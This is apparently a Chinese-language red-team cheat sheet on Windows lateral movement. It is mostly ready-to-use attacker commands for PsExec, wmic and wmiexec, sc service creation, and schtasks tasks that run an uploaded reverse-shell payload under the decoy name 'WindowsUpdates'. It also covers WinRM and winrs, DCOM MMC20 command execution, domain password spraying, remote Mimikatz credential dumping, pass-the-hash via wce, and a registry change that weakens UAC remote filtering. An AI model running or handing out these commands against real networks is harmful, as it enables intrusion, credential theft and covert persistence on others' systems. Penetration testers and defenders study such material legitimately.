

PSEXEC
优点：微软的东东
执行原理：
通过ipc$连接，释放psexesvc.exe到目标机器
通过服务管理SCManager远程创建psexecsvc服务，并启动服务
客户端连接执行命令，服务端启动相应的程序并执行回显数据。
运行完后删除服务
使用方式：
1、先建立IPC通道连接，然后直接使用
net use \\192.168.0.116\ipc$ “password” /user:administrator
psexec.exe \\192.168.0.116 cmd 进入半交互式cmdshell ； 2、在psexec的参数中指定账户密码
psexec.exe \\192.168.0.116 –u administrator –p password cmd -accepteula参数表示接受Sysinternals的最终用户许可协议，用于机器第一次使用psexec时不跳出提示框
-hashes可支持hash密码
使用psexec最低要求
- 远程机器的 139 或 445 端口需要开启状态，即 SMB；
- 明文密码或者 NTLM 哈希；
- 具备将文件写入共享文件夹的权限；
- 能够在远程机器上创建服务：SC_MANAGER_CREATE_SERVICE (访问掩码：0x0002)；
- 能够启动所创建的服务：SERVICE_QUERY_STATUS（访问掩码：0x0004）+ SERVICE_START（访问掩码：0x0010）
在启动psexec建立连接后，远程系统上会被安装一个服务:psexecsvc，安装服务会留下日志，而且psexec推出时有可能服务删除失败，所以不推荐使用psexec,而推荐WMIexec
WMI
执行原理：
WMI（Windows Management Instrumentation,Windows 管理规范）是一项核心的 Windows 管理技术；
通过使用端口135上的远程过程调用(RPC)进行通信以进行远程访问，用户可以使用 WMI 管理本地和远程计算机，整个运行过程都在计算机内存中发生，不会留下任何痕迹
利用条件：
WMI服务开启，端口135，默认开启。
防火墙允许135、445等端口通信。
wmic（03以上自带，缺点是无回显，可以将命令执行结果写入本地磁盘配合type命令远程读取）：
工作组横向：
wmic /node:192.168.0.116 /user:tw /password:viq135311 process call create "cmd.exe /c calc"域内横向：
wmic /node:target.domain /user:domain\user /password:password process call create "cmd.exe /c calc”获取半交互式shell：
cscript.exe //nologo wmiexec.vbs /shell 192.168.0.116 administrator password在远程系统上执行单条命令：
cscript.exe wmiexec.vbs /cmd 192.168.0.116 administrator password "whoami"在远程系统上执行bat脚本：
cscript.exe wmiexec.vbs /cmd 192.168.0.116 administrator password c:\programdata\test.bat使用hash的情况：
wce注入hash再进行连接
wce –s 账号:主机名或域的名字:LM:NTLM
cscript //nologo wmiexec.vbs /shell 192.168.0.1注意：抓取的LM hash是AAD3开头的，或者是No Password之类的，计用32个0代替LM hash
Invoke-WMIMethod （powershell自带,执行单条命令）
$User="administrator"
$Password= ConvertTo-SecureString -String "password" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "calc.exe" -ComputerName "192.168.0.116" -Credential $Cred其他的利用还有impacket套件、kali自带的pth-winexe、Invoke-TheHash.ps1(可批量)
sc
Service Control；可通过smb创建任务，使用sc命令实现执行SYSTEM权限的命令,执行的文件必须为服务二进制文件
copy service.exe \\192.168.0.116\admin$\temp
sc \\192.168.0.116 create TestService binpath= "C:\windows\temp\service.exe"
sc \\192.168.0.116 start TestService
sc \\192.168.0.116 delete TestServicemsfvenom生成service exe：
-f exe-serviceCS生成service exe：
输出项选择windows service exe计划任务
win xp/2003 为at命令
win7+ 为schtasks命令
利用条件：
目标管理员账户凭据
当前机器可正常net use到远程机器
目标机器的计划任务服务“Task scheduler”已正常启动
net use \\192.168.0.116\admin$ /user:administrator password ###连接目标共享
net time \\192.168.0.116###查看目标主机当前时间
xcopy c:\rev.exe \\192.168.0.116\admin$\temp\###上传payload
chcp 437 ###如果目标为中文系统，需要先调整字符集
schtasks /create /s 192.168.0.116 /u administrator /p password /RL HIGHEST /F /tn "WindowsUpdates" /tr "C:/Windows/temp/rev.exe" /sc DAILY /mo 1 /ST 18:20###在远程目标机器上创建计划任务
schtasks /run /tn WindowsUpdates /s 192.168.0.116 /U administrator /P password ###创建完成后手动执行
schtasks /query /s 192.168.0.116 /U administrator /P password | findstr "WindowsUpdates"###检查运行状态
schtasks /delete /F /tn WindowsUpdates /U administrator /P password###反弹shell之后，删除计划任务参数讲解：
/TN：任务名称
/TR：任务执行的程序
/ST：任务执行的时间
winRM
Windows Remote Management
通过5985（HTTP）和5986（HTTPS）使用WMI的方式进行远程管理
利用条件：
在win 2012之后(包括win 2012)的版本是默认开启的，win 2012之前利用需要手动开启winRM。
防火墙对5986、5985端口开放。
powershell：
第一次执行winrm：当前主机的trustedhosts设置为*，表示信任任意主机，之后重启winRM。
Set-Item WSMan:localhost\client\trustedhosts -value *
Restart-Service WinRM常用命令：
Enable-PSRemoting -force ###需要目标机器开启远程管理
Test-NetConnection 192.168.0.116 -CommonTCPPort WINRM ###检查目标机器是否监听winrm端口
Get-Item WSMan:\localhost\Client\TrustedHosts ###检查主机信任
Invoke-Command 192.168.0.116 -Credential $cred -ScriptBlock {Hostname} ###远程执行命令
Enter-PSSession 192.168.0.116 -Credential administrator ###交互式用户凭证shell；会弹出一个输入密码的框用户凭证使用：
$User="administrator"
$Password= ConvertTo-SecureString -String "password" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
Invoke-Command 192.168.0.116 -Credential $cred -ScriptBlock {Hostname}直接使用mimikatz获取远程机器的账户密码：(在域中测试成功，工作组没能成功)
Import-Module ./Invoke-Mimikatz.ps1
Invoke-Mimikatz -ComputerName TARGETwinrs：
winrs -r:192.168.0.116 -u:administrator -p:password "ipconfig" ##执行命令
winrs -r:192.168.0.116 -u:administrator -p:password "cmd" ##shellevil-winrm 可通过用户凭证密码/hash直接获得交互shell
DCOM
COM：COM是Windows应用程序编程接口（API）的组件，该组件支持软件对象之间的交互。 通过COM，客户端对象可以调用服务器对象的方法，这些对象通常是动态链接库（DLL）或可执行文件（EXE）。
DCOM：Distributed COM；DCOM是COM的网络化版本，DCOM允许COM组件可以利用网络以二进制格式来传输数据
获取DCOM列表
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
或
Get-CimInstance Win32_DCOMApplication #需win12以上存在某些具有命令执行功能的DCOM，可用于横向移动
MMC20.Application COM：（域中测试成功，工作组只能本地成功而不能远程）
查看该DCOM信息：
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'与目标建立连接：
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.0.116"))
$com.Document.ActiveView | Get-Member通过ExecuteShellCommand执行程序：
$com.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")Excel.Application
## Password Spraying ##
Password Spraying实际上是域用户爆破
首次尝试使用一个用于多个用户名的通用密码登录。如果所有用户名的第一个密码都不正确，则攻击者将使用其他密码，在两次不同的密码猜测之间留出足够的时间；即采用大量用户名并使用单个密码将其循环的攻击方法，以免触发任何基于时间的帐户锁定阈值
自动从当前用户的域中生成用户列表，并尝试使用每个用户名和密码password进行身份验证
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password password其他可选参数：
UserList-用于Spraying的用户列表。 如果未指定，将自动生成。
password-用于Spraying的单个密码。
PasswordList-用于Spraying的密码列表（不应该过多，导致账户锁定）
OutFile-输出结果到指定文件
domain-要对其进行Spraying的域。
Force-强制喷Spraying继续进行而不提示确认
RDP
sharpRDP：
SharpRDP.exe computername=dc01 command=calc username=offense\administrator password=123456
CS中实现：

基于tscon的RDP会话劫持
https://www.hackingarticles.in/rdp-session-hijacking-with-tscon/
https://pentestlab.blog/tag/rdp-session-hijacking/
https://ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement
PTH&PTT&OverPTH:
没什么特别的，需要注意的是在win10中，默认启用LocalAccountTokenFilterPolicy，用于控制过滤本地管理员组中所有本地用户的远程连接UAC。
当LocalAccountTokenFilterPolicy设置为0(默认值)时，只能使用RID 500本地管理员远程连接，且不会已完全的管理员身份进行连接，无法不存在潜在的提权
需要设置为1，非内置的sid为500的用户才能进行远程连接
不会影响本地Administrators组中的域帐户，仅影响本地帐户
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /fprinters, open webroots, good old Tomcat
还有就是关注内网打印机、web共享目录、旧版本tomcat等有利于横向的脆弱性设备/环境
链接：
https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f
https://lengjibo.github.io/LateralMovement/
https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/